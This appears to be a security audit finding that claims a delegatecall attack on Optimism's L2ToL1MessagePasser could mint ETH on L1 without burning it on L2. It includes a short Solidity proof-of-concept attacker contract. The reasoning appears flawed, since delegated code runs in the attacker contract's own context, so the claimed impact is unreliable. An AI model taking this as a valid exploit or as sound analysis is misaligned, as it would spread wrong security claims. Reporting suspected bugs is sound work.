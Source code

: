 prapandey031

high

# Delegate call to the initiateWithdrawal() function of the L2ToL1MessagePasser.sol would result in positive msg.value without sending any real value

## Summary

## Vulnerability Detail
An attacker can call a contract on L2, with positive msg.value (say 10 ETH) which in turn would delegate call the initiateWithdrawal() function of the L2ToL1MessagePasser.sol without any value. However, the initiateWithdrawal() function would read a positive msg.value while emitting MessagePassed event [in line 120](https://github.com/ethereum-optimism/optimism/blob/9b9f78c6613c6ee53b93ca43c71bb74479f4b975/packages/contracts-bedrock/contracts/L2/L2ToL1MessagePasser.sol#L120). This would let an attacker get ETH on L1 without burning ETH on L2.

## Impact
An attacker could get ETH on L1 without burning ETH on L2.

## Code Snippet
Below is a contract that is similar to the L2ToL1MessagePasser.sol contract. The emitter() function is equivalent to the initiateWithdrawal() function:
// SPDX-License-Identifier: GPL-3.0

pragma solidity 0.8.15;

contract Test {

    event MessagePassed(uint256 value);

    function emitter() external payable {

        emit MessagePassed(msg.value);
    }
}

Below is a contract (deployed by an attacker) that would perform the delegate call:
// SPDX-License-Identifier: GPL-3.0

pragma solidity 0.8.15;

contract Test_1 {

    function attack(address test) external payable {

        (bool success,) = test.delegatecall(abi.encodeWithSignature("emitter()"));
        require(success);
    }
}

The screenshot below shows that the call to Test_1.attack() is successful and the MessagePassed event is also emitted.

## Tool used
Remix IDE
Manual Review

## Recommendation
Add a check for no delegate calls in the initiateWithdrawal() function of the L2ToL1MessagePasser.sol.

![Result](https://user-images.githubusercontent.com/71516802/230637918-ef90a531-56a5-4ca2-b6f7-6025db4ac6f6.png)

